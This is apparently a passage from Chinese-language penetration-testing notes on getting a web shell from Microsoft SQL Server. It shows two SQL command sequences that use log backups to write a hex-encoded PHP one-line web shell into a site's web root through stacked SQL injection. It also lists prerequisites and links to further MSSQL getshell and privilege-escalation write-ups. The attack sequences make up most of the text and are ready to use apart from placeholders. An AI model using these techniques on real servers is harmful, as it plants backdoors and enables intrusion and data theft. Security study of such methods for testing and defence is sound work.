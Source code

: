 - 存在数据库备份文件
- 网站的绝对路径
- 堆叠注入

```mssql
alter database 数据库名 set RECOVERY FULL;   --修改数据库恢复模式为 完整模式
create table cmd (a image);        --创建一张表cmd，只有一个列 a，类型为image
backup log 数据库名 to disk= 'C:\phpstudy\WWW\1.php' with init;   --备份表到指定路径
insert into cmd (a) values(木马十六进制);  --插入一句话到cmd表里
backup log 数据库名 to disk='C:\phpstudy\WWW\2.php';   --把操作日志备份到指定文件
drop table cmd;    --删除cmd表
```

`2.php`为木马文件



### 差异备份

> 注：差异备份有概率会把网站搞崩，所以不建议使用差异备份

- 网站的绝对路径
- 堆叠注入

```mssql
create table [dbo].[test] ([cmd] [image])

declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x6b 68617a backup log @a to disk = @s with init,no_truncate

insert into [test](cmd) values(木马十六进制)

declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=绝对路径十六进制 backup log @a to disk=@s with init,no_truncate

Drop table [test]
```



# 补充--待学习

```
MSSQL 2017--Python和R脚本
沙盒命令执行
Agent Job命令执行
```

https://xz.aliyun.com/t/7534#toc-17

[MSSQL GetShell方法 - 先知社区](https://xz.aliyun.com/t/8603)

[mssql 提权总结 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1545/)





# 实战问题记录
